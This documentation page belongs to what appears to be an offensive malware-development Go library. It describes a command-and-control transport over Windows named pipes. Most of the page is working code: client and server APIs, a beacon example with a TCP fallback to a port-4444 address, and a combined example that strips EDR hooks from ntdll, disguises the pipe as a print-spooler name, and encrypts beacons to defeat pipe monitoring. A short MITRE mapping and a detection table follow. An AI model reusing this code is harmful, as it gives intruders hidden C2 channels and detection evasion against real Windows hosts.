

# Named Pipe Transport

| Field | Value |
|-------|-------|
| MITRE ATT&CK | T1071.001 Application Layer Protocol |
| Package | `c2/transport/namedpipe` |
| Platform | Windows |
| Detection | Medium |

## Primer

Most C2 traffic leaves the host over TCP or HTTP, which firewalls and network sensors inspect closely. Windows named pipes are an on-host IPC channel that Windows services use constantly, so traffic between two local processes over a pipe looks identical to normal OS activity.

An implant can beacon to a local relay (or to another session over SMB) through a named pipe without ever touching a network socket that a perimeter IDS can see.

## What It Does

Provides a C2 transport over Windows named pipes, implementing both client (`transport.Transport`) and server (`transport.Listener`) interfaces. Named pipes are a native IPC mechanism used extensively by Windows services, making pipe-based C2 traffic blend with legitimate OS activity.

## How It Works



### Server Flow

1. `NewListener(name)` validates the pipe name and returns a `PipeListener`.
2. `Accept(ctx)` calls `CreateNamedPipeW` to create a duplex, byte-mode pipe instance (up to 255 concurrent instances, 64 KB buffers).
3. `ConnectNamedPipe` blocks until a client connects. `ERROR_PIPE_CONNECTED` is handled for the race where a client connects between create and wait.
4. The connected handle is wrapped in a `pipeConn` implementing `net.Conn`.

### Client Flow

1. `New(name, timeout)` stores the pipe name and dial timeout.
2. `Connect(ctx)` calls `WaitNamedPipeW` with the configured timeout, then opens the pipe with `CreateFile` (`GENERIC_READ|GENERIC_WRITE`).
3. The handle is wrapped in a `pipeConn` for read/write.

## API

```go
// Client
func New(name string, timeout time.Duration) *Pipe
func (p *Pipe) Connect(ctx context.Context) error
func (p *Pipe) Read(buf []byte) (int, error)
func (p *Pipe) Write(buf []byte) (int, error)
func (p *Pipe) Close() error
func (p *Pipe) RemoteAddr() net.Addr

// Server
func NewListener(name string) (*PipeListener, error)
func (l *PipeListener) Accept(ctx context.Context) (net.Conn, error)
func (l *PipeListener) Close() error
func (l *PipeListener) Addr() net.Addr
```

## Usage

### Standalone

```go
// Server
ln, _ := namedpipe.NewListener(`\\.\pipe\c2agent`)
defer ln.Close()
conn, _ := ln.Accept(ctx)
buf := make([]byte, 4096)
n, _ := conn.Read(buf)
conn.Write([]byte("ack"))

// Client
p := namedpipe.New(`\\.\pipe\c2agent`, 5*time.Second)
p.Connect(ctx)
defer p.Close()
p.Write([]byte("beacon"))
```

### Advanced — concurrent server with cancellation

One `PipeListener` can accept up to 255 concurrent pipe instances. The common
pattern is a `for`-loop that calls `Accept` and hands each `net.Conn` to a
dedicated goroutine, with the top-level `context.Context` plumbed through so
`Close()` on the listener cleanly unblocks everything.

```go
package main

import (
    "context"
    "io"
    "log"
    "net"
    "os/signal"
    "syscall"

    "github.com/oioio-space/maldev/c2/transport/namedpipe"
)

func handle(conn net.Conn) {
    defer conn.Close()
    // Echo framing example — real C2 would dispatch a command.
    io.Copy(conn, conn)
}

func main() {
    ctx, stop := signal.NotifyContext(context.Background(),
        syscall.SIGINT, syscall.SIGTERM)
    defer stop()

    ln, err := namedpipe.NewListener(`\\.\pipe\c2agent`)
    if err != nil {
        log.Fatal(err)
    }
    // Closing the listener on shutdown unblocks the outstanding Accept.
    go func() { <-ctx.Done(); ln.Close() }()

    for {
        conn, err := ln.Accept(ctx)
        if err != nil {
            if ctx.Err() != nil {
                return // clean shutdown
            }
            log.Printf("accept: %v", err)
            continue
        }
        go handle(conn)
    }
}
```

### With multicat

```go
cfg := multicat.Config{
    Transports: []transport.Transport{
        namedpipe.New(`\\.\pipe\c2local`, 5*time.Second),
        transport.NewTCP("10.0.0.1:4444", 10*time.Second),
    },
}
mc := multicat.New(cfg)
mc.Connect(ctx)
```

---

## Combined Example

Beacon over a named pipe with an AES-GCM-encrypted payload, after patching
ntdll to remove vendor hooks that would otherwise log the pipe syscalls.

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/transport/namedpipe"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion/unhook"
)

func main() {
    ctx := context.Background()

    // 1. Remove EDR inline hooks on common ntdll exports first. Any later
    //    call into NtCreateFile / NtWriteFile for the pipe transport will
    //    reach the real kernel stub instead of the vendor detour.
    for _, t := range unhook.CommonClassic() {
        _ = t.Apply(nil)
    }

    // 2. Dial the local pipe. To a network sensor this is invisible — no
    //    packets leave the host; to a process-tree view it's just IPC.
    p := namedpipe.New(`\\.\pipe\spoolv4`, 5*time.Second)
    if err := p.Connect(ctx); err != nil {
        return
    }
    defer p.Close()

    // 3. Encrypt the beacon with AES-GCM so a defender who tees the pipe
    //    (debugger, minifilter, Sysmon pipe-content rule) sees ciphertext.
    key, _ := crypto.NewAESKey()
    beacon := []byte(`{"id":"agent-01","cmd":"checkin"}`)
    ct, _ := crypto.EncryptAESGCM(key, beacon)
    _, _ = p.Write(ct)

    // Response side (mirror): p.Read → crypto.DecryptAESGCM(key, buf[:n]).
}
```

Layered benefit: unhooking restores clean syscall stubs so nothing in the
pipe I/O path feeds a vendor sensor; the named-pipe transport keeps traffic
on-host and looks like ordinary IPC; AES-GCM turns any captured pipe bytes
into opaque, integrity-protected ciphertext.

---

## MITRE ATT&CK

| Tactic | Technique | ID |
|--------|-----------|----|
| Command and Control | Application Layer Protocol | T1071.001 |
| Execution | Inter-Process Communication | T1559 |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 |

## Detection

| Signal | Detail |
|--------|--------|
| Named pipe creation | Sysmon Event ID 17/18 logs pipe creation and connection |
| Pipe name pattern | Non-standard pipe names outside known Windows services |
| SMB traffic | Named pipe access over SMB (port 445) for lateral movement |
| Handle inspection | Process handle enumeration reveals open pipe handles |

**Rating: Medium** -- Named pipes are heavily used by legitimate Windows services, making detection reliant on pipe name heuristics and behavioral analysis rather than simple signature matching.

---

## API Reference

See [c2.md](../../c2.md#c2transportnamedpipe----windows-named-pipe-transport)
